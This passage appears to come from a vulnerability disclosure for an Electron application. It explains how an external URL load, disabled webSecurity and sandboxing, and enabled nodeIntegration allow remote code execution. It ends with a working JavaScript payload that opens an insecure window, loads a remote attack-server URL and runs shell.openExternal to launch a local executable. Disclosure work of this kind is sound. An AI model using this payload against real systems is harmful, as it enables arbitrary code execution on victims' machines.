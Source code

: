 - You can download malicious files by proceeding with external requests using the load URL API.
- The internal file of the target host stage can be accessed using `file://` Schema and if external requests are possible, proceed after releasing the `SOP`.
- The `win.webContents API` can utilize the object to perform Remote Code Execution through nodejs, which can be considered as the total management of the concept of IPC communication between the main process and the rendering process.
- Node js may be executed based on the main frame of the newly created window. By calling an external script using the corresponding window, you can finally check the result of the shell execution through the `contents.execute.JavaScript` API as follows.

![RCE Exploit flow](./exploit-flow-1.png)
- Finally, it can be seen that the Script operates as shown in the picture above. Based on this, Code JS may be executed through a Script executed on an external server (attack server) to trigger code requests.

## Any additional information?

### Payload

**payload (node js code execution)**

- Node JS is used to run code on the OS. Therefore, the `NodeIntegration` property of the Electron Application is activated.

``` tsx
    var i_b = _electron_interop.getCurrentWindow();
    i_i_b = new i_b.constructor(
        {
            width: 1024,
            height: 1024,
            webPreferences:{
                javascript: true,
                webSecurity: false,
                sandbox: false,
                contextIsolation: false,
                nodeIntegration: true,
            }
        }
    );
    // window, macOS, Linux
    var o_1 = "const {shell}=require('electron');shell.openExternal('file:C:/Windows/System32/calc.exe')";
    i_i_b.loadURL("<http://zer0Luck.kr/>");
    i_i_b.webContents.mainFrame.executeJavaScript(o_1);
```
